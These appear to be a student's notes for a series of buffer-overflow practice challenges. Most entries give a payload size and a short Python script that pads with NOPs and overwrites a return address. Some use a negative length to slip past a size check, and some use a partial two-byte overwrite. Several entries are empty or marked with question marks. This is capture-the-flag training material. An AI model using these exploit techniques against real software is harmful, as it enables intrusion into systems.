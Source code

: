 ## ex 1.0
Payload size: 25  
Insert 'a' x 25

## ex 1.1
Payload size: 100
Insert 'a' x 100

## ex 2.0
Payload size: 401
Insert 'a' x 401

## ex 2.1
Payload size: 1000
Insert 'a' x 1000

## ex 3.0
Payload size: 64  
Script python:
```
number = b"\x36\x34\x0a"
payload = b"\x90" * 56
payload += b"\x19\x20\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 3.1
Payload size: 112  
Script python:
```
number = b"\x31\x31\x32\x0a"
payload = b"\x90" * 104
payload += b"\x35\x1d\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.0
+ challenge is smart: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. Triggers with payload size > 60
Script python:
```
number = b"\x2d\x39\x36\x0a"                        # size = -96
payload = b"\x90" * 88
payload += b"\xa1\x18\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.1
+ triggers with payload size > 54
Script python:
```
number = b"\x2d\x39\x36\x0a"
payload = b"\x90" * 88
payload += b"\x76\x1a\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 5.0
+ this challenge will let you send multiple payload records concatenated together.
It will make sure that the total payload size fits in the allocated buffer
on the stack  
+ triggers with number of payloads > 7
+ triggers with number of payloads = 0 or payload size = 0
Script python:  
```
```  
???

## ex 5.1
???

## ex 6.0
+ this challenge's win function will check if the argument passed is 0x1337. We need to jump past the check  
Script python:  
```
number = b"\x31\x32\x38\x0a"
payload = b"\x90" * 120
payload += b"\x89\x16\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

# ex 6.1
Script python:  
```
number = b"\x36\x34\x0a"
payload = b"\x90" * 56
payload += b"\xba\x14\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

# ex 7.0
Script python:  
```
number = b"\x34\x32\x0a"
payload = b"\x90" * 40
payload += b"\xce\x47"              # most significant 4 bits of second byte are random
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 7.1
Script python:  
```
number = b"\x31\x32\x32\x0a"
payload = b"\x90" * 120
payload += b"\xa4\x19"              # most significant 4 bits of second byte are random
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 8.0
+ this challenge is careful about reading your input: it will allocate a correctly-sized temporary
buffer on the heap, and then copy the data over to the stack  
Script python:  
```
```
